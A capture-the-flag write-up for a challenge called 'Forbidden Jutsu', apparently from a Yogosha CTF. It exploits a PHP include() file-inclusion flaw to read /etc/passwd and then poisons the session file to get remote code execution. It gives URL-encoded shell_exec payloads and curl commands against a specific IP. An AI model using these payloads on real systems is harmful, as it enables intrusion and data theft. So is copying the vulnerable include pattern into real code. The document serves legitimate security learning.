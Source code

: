 # Forbidden Jutsu Writeup 

## Recon

Recon was pretty straightforward, as there's some source code right into the homepage:

![2022-12-29_15-00](https://user-images.githubusercontent.com/33382014/209969846-cb3e6293-79ad-4c06-b25f-5150f363e2a6.png)

What this PHP does basically is:

- session_start(): creates a session or resumes the current one based on a session identifier passed via a GET or POST request, or passed via a cookie. 
- This session takes one parameter, i.e. karma
- This session is identified by the parameter `$_SESSION["boruto"]`, which is set to the value of the "karma" parameter. 
- `include()`, aka The Safest Function of The World, includes and evaluates the specified file.   It will include and evaluate any file that we pass with the "karma" parameter. LFI DETECTED!

## LFI

Let's try it:


`http://44.200.237.73/?karma=/etc/passwd`

![2022-12-29_14-59](https://user-images.githubusercontent.com/33382014/209969927-91ca8cd3-9cbe-4b46-b4f9-91bd25a959df.png)

It works without any need for parameter manipulation such as `../../../../../` or null bytes. I tried to read other relevant files such as conf files but had no success. The hint to what do after is right in the homepage: 

`//Our secret is in the root directory; You can't reveal it without achieving RCE Jutsu ;)`

I'm not a Naruto/Boruto fan but I'm pretty sure there's no RCE Jutsu in the manga/anime so we will have to work our chakras to find a Hacker's way to RCE instead of a Ninja's one. 

The only RCE other than the intend one that kinda works is PHP Filters Chain attack. Further details on this attack can be found here https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html and the PoC can be found here https://github.com/synacktiv/php_filter_chain_generator. 

![2022-12-29_15-14](https://user-images.githubusercontent.com/33382014/209970011-1e3cb01e-65eb-48d0-94e6-8fb043e420b3.png)

![2022-12-29_15-13](https://user-images.githubusercontent.com/33382014/209970029-eda5f1a3-2cb8-4c3c-9fa3-b6bd025cecf9.png)


As can be seen, you can execute remote code that way, but it was very difficult to try to achieve anything concrete with it, firstly because the output was not well rendered or there was no output at all, secondly because the server refuses to load very lengthy payloads and that limitated this vector even more. The only relevant info that I was able to get is that sessions are stored at `/tmp/sess_<SESSION>` by supplying the following code to the filter chain generator: `'<?php echo exec("ls /tmp"); ?>  '`. 

By looking again at the source code, the natural step is to fuzz with the `$_SESSION["boruto"]` parameter. Spoiler: that's the way to achieve RCE Jutsu.  

How to enable RCE jutsu:

1. Create a new session with a cookie value and the PHP payload as the karma parameter: `curl http://44.200.237.73 -H 'Cookie: PHPSESSID=jutsu' curl http://44.200.237.73/?karma=%3c%3f%70%68%70%20%24%6f%3d%73%68%65%6c%6c%5f%65%78%65%63%28%27%6c%73%20%2f%27%29%3b%65%63%68%6f%20%22%24%6f%22%3b%20%3f%3e` The first curl command sets the session as `jutsu`, which will be located at `/tmp/sess_jutsu`. The second one sets the karma parameter to <?php $o=shell_exec('ls /');echo "$o"; ?> with URL-encoding. I'm giving both commands at the same time because it's not always clear for how long that session is going to be kept alive.
2. By going to http://44.200.237.73/?karma=/tmp/sess_jutsu you can see the results of the listing, and the flag file as well. 

![2022-12-29_15-35](https://user-images.githubusercontent.com/33382014/209970089-2e31eba8-acc7-4756-b4bd-070a8b5147d3.png)


3. Now all that is left to do is to repeat step 1 with the following value as the karma parameter: <?php $o=shell_exec('cat /seCretJutsuToKillBorUtoKun.txt');echo "$o"; ?>
4. `curl http://44.200.237.73 -H 'Cookie: PHPSESSID=jutsu' curl http://44.200.237.73/?karma=%3c%3f%70%68%70%20%24%6f%3d%73%68%65%6c%6c%5f%65%78%65%63%28%27%63%61%74%20%2f%73%65%43%72%65%74%4a%75%74%73%75%54%6f%4b%69%6c%6c%42%6f%72%55%74%6f%4b%75%6e%2e%74%78%74%27%29%3b%65%63%68%6f%20%22%24%6f%22%3b%20%3f%3e` is the final payload.
5. Access http://44.200.237.73/?karma=/tmp/sess_jutsu to retrieve the flag. 

![2022-12-29_15-41](https://user-images.githubusercontent.com/33382014/209970118-fad333bd-8787-4bfd-a5ac-5aef9eb7efc0.png)


Thanks to everyone at Yogosha for this CTF. It was very fun and challenging!
